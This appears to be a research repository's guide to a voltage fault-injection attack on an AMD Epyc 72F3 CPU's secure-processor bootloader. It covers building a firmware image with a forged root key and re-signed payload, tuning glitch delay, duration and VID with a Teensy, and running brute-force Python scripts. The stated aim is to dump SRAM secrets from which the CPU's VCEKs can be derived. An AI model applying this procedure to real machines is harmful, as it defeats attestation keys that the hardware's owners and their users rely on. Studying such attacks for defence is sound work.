


# Determining the Glitch Parameters

In this document we describe the process of selecting the attack parameters for an *Epyc 72F3 CPU* in a *Supermirco H11DSU-iN* motherboard.

## Firmware Image

Since the *Supermicro H11DSU-iN* motherboard does not support Zen3 CPUs, we use a Firmware image from the [*Supermicro H12SSL-i*](https://www.supermicro.com/en/products/motherboard/H12SSL-i) motherboard in our experiments.
We downloaded the file
```
roms/H12SSL_BIOS_R2_0_BMC_R1_00_32_SUM_2_5_2-p1.zip
```
and extracted the firmware image:
```
roms/BIOS_H12SSL-1B95_20210222_2.0_STDsp.bin
```
The second half of this firmware image contains the firmware entries used by the Zen3 CPU.
We copy these 16 Mebibytes to `roms/original_firmware.bin`:
```
$ dd if=roms/BIOS_H12SSL-1B95_20210222_2.0_STDsp.bin bs=1M skip=16 \
count=16 of=roms/original_firmware.bin
```

### Generating a Key
To carry out our attack we need to generate our own RSA key to act as the ARK.
We do this using the `make_key_entry.py` script:
```
$ python make_key_entry.py OWN_KEY
generated public key hash:
fa555c8f 1500a5e2 a8e93c47 5d4fb46e 8bc0acc7 7c349ee2 8015319e b27728cc
is hash okay? [y/N]:
generated public key hash:
b3df03a8 cf51abc4 2c18ad6c 8a52e204 e3b6b567 3dae3cd4 d2f1f64f 1e5ec410
is hash okay? [y/N]:
generated public key hash:
62f8d79c 6f069d9a de7e1164 fcf07a41 17336a64 b1979621 9e68ad94 7df18176
is hash okay? [y/N]: n
generated public key hash:
e731757e d3545dae 551eeb84 6356f54b 17b0de5b 917dcaa4 e0722ba8 133fa396
is hash okay? [y/N]: y
Wrote public key entry to: OWN_KEY.ENTRY
Wrote private key to: OWN_KEY.ID
```
The python package `cryptography` must be installed for this script.

**Note:** We assume that to exploit the Epyc Zen1 bootloader it is necessary that the first word of the key hash has a zero as MSB (in little endian encoding).
Even though we haven't rigorously confirmed this, we still choose our keys according to this requirement.

### Attack Payload
A small payload that will write "Hello, world!" and the SRAM contents to the SPI bus is located in the `hello-world` directory.
With an arm cross compiler installed this payload can be built as follows:
```
$ cd hello-world/
$ make
arm-none-eabi-gcc -Os -I../include -I../Lib/include ...
arm-none-eabi-ld -T linker.ld _start.o -o hello-world.elf
arm-none-eabi-objcopy -O binary hello-world.elf hello-world.raw
```

### Creating an attack image
Now we modify the original firmware image as follows:

* We replace the ARK with our generated key.
* We replace the psp-os firmware component with our generated payload.
   Among the changes to the header of this firmware component we change the security version number to 255.
* We re-sign the psp-os firmware component and its header with our key.

The python script `make_epyc3_pl.py` contains the code implementing this step.
The script contains some constants that might need to be changed for your specific application:
```py
# make_epyc3_pl.py
...

original_rom = 'roms/original_firmware.bin'
pubkey_offset = 0x66400
pubkey_length = 0x440
firmware_offset = 0x1b6400
firmware_length = 0x15100

pubkey_entry_path = 'OWN_KEY.ENTRY'
privkey_path = 'OWN_KEY.ID'

payload_bin = 'hello-world/hello-world.raw'

...
```
We use this script to create our attack firmware image:
```
$ python make_epyc3_pl.py roms/custom_firmware.bin
replacing the public key
replacing the firmware
writing output
```

## Parameter Determination

As a first step we flash the custom firmware image, open a serial connection to the Teensy and start the target device:
```
###########################                      
# AMD SVI2 Injection Tool #                      
###########################                      
Welcome type "help" for help!                    
> set hw config 1                                
>                                                
Restart detected!                                
Setting VSoc!                                    
Setting VCore and disabling telemetry!           
> 
```
**Note:** We set the hardware configuration here, but this step is not necessary for the default hardware configuration one.

When we stop the the target maschine again, the Teensy should notice the change and report `Target is now offline!`.

To quickly restart the target device we can use the `restart reset` command (with the target running):
```
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
```

### How many Chip-Select cycles to wait?

Since our custom firmware does not contain a valid ARK entry, the rom bootloader will stop its execution when the ARK validation fails.
This means we can count the number of CS pulses that occur before the ARK verification.

To do this we set the glitch parameters `delay` and `duration` to zero, which effectivly disables the glich attack.
```
> set glitch delay 0
> set glitch duration 0
```
Now we execute an attack with an arbitrary chip-select wait parameter:
```
> set attack waits 100
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack failed!
Error: CS was high for too long!
> 
```
**Note:** The attack first needs to be armed with the `attack` command.
Once it is armed we reset the target, which triggers the attack logic.

In the case above we see that the attack failed since a timeout occured while waiting for another Chip-Select pulse.
This means that 100 chip-select pulses are too many.
If we wait for no pulses we do not see this error:
```
> set attack waits 0
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target glitched successfully!
> 
```
**Note:** The attack logic wrongly interprets this attack as a successful attack. This is because we are attacking the device long before the ARK verification.

We can now use a binary search tactic to find the highest `waits` parameter for which no error occurrs:
```
 waits | Error
-------|-------
    50 | Yes
    25 | No
    37 | Yes
    31 | Yes
    28 | No
    29 | No
    30 | No
```
This means we have 30 Chip-Select pulses before the ARK verification.
As described in our paper, we usually want to set this parameter to one pulse less than the maximum:
```
set attack waits 29
```

### Minimal delay value
Now we want to determine the first delay parameter such that our attack lies within the ARK verification window.
This window beginns after the last CS pulse and we determine this delay parameter by measuring the state of the CS line at attack time:
```
> set glitch delay 0
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Chip-Select was low at glitch time!
Target is broken!
> set glitch delay 4096
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target is broken!
> 
```
In the listing above we can see that the Teensy reports whether the Chip-Select line was low at glitch time.
We now use binary search again to find the highest delay parameter for which Chip-Select is reported as being low at glitch time:
```
 delay | CS at glitch time
-------|-------------------
  2048 | low
  3072 | low
  3586 | high
  3330 | high
  3202 | high
  3138 | high
  3106 | low
  3122 | high
  3114 | high
  3110 | high
  3108 | high
  3107 | low
```
This means the ARK verification window starts at the delay parameter 3108.

### Maximal delay value
To find the end of the ARK verification window we flash the original firmware image again.
Since the ARK entry on the firmware image is now valid, the ROM bootloader continues to access the flash after the ARK verification.

We use this to determine the end of the ARK verification window.
To do this we find the lowest delay parameter after 3108 (the start of the ARK verification window) for which Chip-Select is low at glitch time.
We start the binary search:
```
> set glitch delay 4096
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target glitched successfully!
> set glitch delay 8192
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Chip-Select was low at glitch time!
Target glitched successfully!
> 

...

 delay | CS at glitch time
-------|-------------------
  6144 | low
  5120 | low
  4608 | high
  4866 | high
  4994 | high
  5058 | high
  5090 | high
  5106 | low
  5098 | high
  5102 | high
  5104 | low
  5103 | high
```
This means our window for the delay parameter is:
`3108 <= delay <= 5103`.

### Voltage Rail Settings

We need to modify some of the Teensy's default settings.
By default the Teensy injects its glitches with an SVI2 packet targeting the second voltage rail controlled by the listening VR.
For AMD Ryzen CPUs -- which have only a single SVI2 Bus -- the connected VR controls both Voltage Rails.
The first voltage rail is the *VCore* voltage and the second voltage rail the *VSoC* voltage.

Per default the Teensy assumes it is conncted to a Ryzen CPU, and therefore performs its injections to the second voltage rail.
The Teensy interface names theses voltage rails according to their application on AMD Ryzen CPUs: the `set_soc` and `set_core` parameters refer to setting the first and second voltage controlled by a VR:
```
> print glitch set_soc
glitch set_soc true
> print glitch set_core
glitch set_core false
```

On AMD Epyc CPUs we have a dedicated SVI2 Bus for the SoC and CPU voltage rails and we must connect the Teensy to the correct bus.
On this bus the SoC Voltage rail is the first voltage controlled by the VR, which means that we have to change the settings as follows:
```
> set glitch set_soc false
> set glitch set_core true
```

### Attack VID and Duration

For the following experiments we fix the delay parameter to a value in the middle of the determined ARK verification window:
```
> set glitch delay 4100
```
We still have the original firmware image installed, configured the correct amount of CS cycles to wait, and set the `duration` to zero.
If we carry out an attack now the Teensy will report a successful attempt:
```
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target glitched successfully!
> 
```
This tells us that the ROM bootloader continued to access the flash after the ARK verification.
If we set the glitch's vid to `0xa0` and its duration to a high value, then the Teensy can report failed attempts:
```
> set glitch vid 0xa0
> set glitch duration 4096
> attack
Attack armed!
> restart reset
Resetting target!
> 
Target is now offline!
> 
Restart detected!
Setting VSoc!
Setting VCore and disabling telemetry!
> 
Attack triggered!
Target is broken!
> 
```
**Note:** The vid value `0xa0` worked for all CPUs the we tested.
If you cannot reproduce this last step you should increase the `duration` parameter.
When you need to increase the `duration` parameter so that it is larger than the `delay` parameter, then you will have to decreaese the count of CS pulses that you have to wait for and re-determine the delay parameter window.

When the Teensy reports a failed attempt (for the original firmware), then our attack caused an unrecoverable failure in the ARK verification window.
We want to cause a fault that has some effect on the execution of the program but does not cause an unrecoverable failure.
Our experiments show that, these faults are most likely for `duration` parameters that have a roughly 50 percent change of causing successful/failed attempts on the original firmware image.

This can be seen in the following graph, the black box marks the duration parameters that had the highest chance of successfully executing our attack:


To find this transition we use a binary search again, but this time we record multiple attempts per parameter:
```
 duration | success/try
----------|-------------
        0 | 1/1
     4096 | 0/1
     2048 | 0/2
     1024 | 0/2
      512 | 2/2
      768 | 2/2
      896 | 2/2
      960 | 1/4
      928 | 4/4
      944 | 6/10
      952 | 3/10
```
Now that we have roughly determined the `duration` parameters where our experiment transitions from mostly failing to mostly succeding, we chose an initial parameter window that includes this transition:
`900 <= duration <= 975`

### Attack scripts

We have included a small python file `teensy.py` that can be used to script attack using the Teensy hardware.
To validate the results from the last section we create a python script that uses the aforementioned file to perfom 300 attacks with randomly selected duration parameters form our determined range:
```py
# duration_test.py
import teensy

gs = teensy.GlitchSetup(

    # Use the serial port of your Teensy device
    teensy.TeensyClient('/dev/tty_YOUR_TEENSY_SERIAL'),

    # inject glitches to the first voltage rail not the second
    use_core = True
)

# Connect to the teensy and set some parameters
gs.start()

gs.attack_range(
    # perform 300 attacks
    count=300,
    # cs pulses to wait
    waits=29,
    # vid of the attack
    vid=0xa0,
    # sample the delay from the interval [delay_min, delay_max[
    delay_min=4100,
    delay_max=4101,
    # sample the duration from the interval [dur_min, dur_max[
    dur_min=900,
    dur_max=975
)
```
We execute this script and record the output:
```
$ python -u duration_test.py | tee -a duration_test.log


(29, 160, 4100, 927) => success
(29, 160, 4100, 974) => broken
(29, 160, 4100, 957) => broken
(29, 160, 4100, 952) => broken
(29, 160, 4100, 966) => broken
(29, 160, 4100, 950) => broken
(29, 160, 4100, 931) => success
(29, 160, 4100, 955) => broken
(29, 160, 4100, 940) => success
...
```
We have also provided two python files to parse and plot the results of such experiments: `result.py` and `plot.py`.
A small python script can be used to visually verify that our duration parameters include the important transition:
```py
# duration_test_plot.py
import result
import plot

results = result.results_by_type(
    result.read_from_file('duration_test.log')
)

plot.plot_durations_bar(['success', 'broken'], results, bin_count=15)
```
```
$ python -i duration_test_plot.py
>>> 
```


We can use this information to further limit the duration parameter, in this case we limit it to 
the window `[920, 950[`.

### Brute force search

Now that we have found the two parameter windows (`3108 <= delay < 5104` and `920 <= duration < 950`) we can search the parameter space.
To do this we create an attack script:
```py
# attack.py
import datetime
# for time-to-success 
print(datetime.datetime.now())

import teensy

gs = teensy.GlitchSetup(

    # Use the serial port of your Teensy device
    teensy.TeensyClient('/dev/tty_YOUR_TEENSY_SERIAL'),

    # inject glitches to the first voltage rail not the second
    use_core = True
)

# Connect to the teensy and set some parameters
gs.start()

# For triggering a logic analyser (only capture successes)
gs.teensy.set('hw', 'trigger_restart', 'false')
gs.teensy.set('hw', 'trigger_glitch', 'false')
gs.teensy.set('hw', 'trigger_glitch_broken', 'false')
gs.teensy.set('hw', 'trigger_glitch_running', 'false')
gs.teensy.set('hw', 'trigger_glitch_success', 'true')
gs.teensy.set('hw', 'trigger_attack', 'false')
gs.teensy.set('hw', 'trigger_cli', 'false')
gs.teensy.set('hw', 'trigger_restart', 'false')

gs.attack_range(
    # perform 1000 attacks
    count=1000,
    # cs pulses to wait
    waits=29,
    # vid of the attack
    vid=0xa0,

    # sample the delay from the interval [delay_min, delay_max[
    delay_min=3108,
    delay_max=5104,

    # sample the duration from the interval [dur_min, dur_max[
    dur_min=920,
    dur_max=950
)

```
We can execute this script in a scripted loop:
```
$ while true; do python -u attack.py | tee -a attack_1.log; done
```
To check on our progress we use grep:
```
$ grep succ attack_1.log
```
Once we have successfully executed an attack, we should check the trace captured with our logic analyzer and verify that `Hello, World!` has been written to the SPI bus.

We can use the parameters of the successful attempt to refine the attack parameters.
Usually we begin by limiting the `delay` parameter to a window of +-50 parameters around the delay of the successful attempt.

From the logic trace of the attack we should be able to extract the dumped SRAM contents, which include secrets that can be used to derive all VCEKs for the CPU.

